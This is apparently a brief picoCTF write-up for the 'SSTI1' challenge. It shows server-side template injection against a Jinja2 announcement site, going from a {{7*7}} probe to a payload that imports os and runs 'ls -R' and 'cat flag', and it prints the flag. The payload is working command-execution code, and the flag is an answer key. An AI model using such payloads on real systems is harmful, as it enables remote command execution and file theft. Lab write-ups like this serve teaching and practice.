

```
# SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!
```

Launch an instance, you'll be presented with an "announcement" box.

Messing around with Jinja2 syntax, `{{ 7 * 7}}`, the output is surprising:



What are we waiting for? Let's straight executing shell commands!

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
> .: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc

{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```
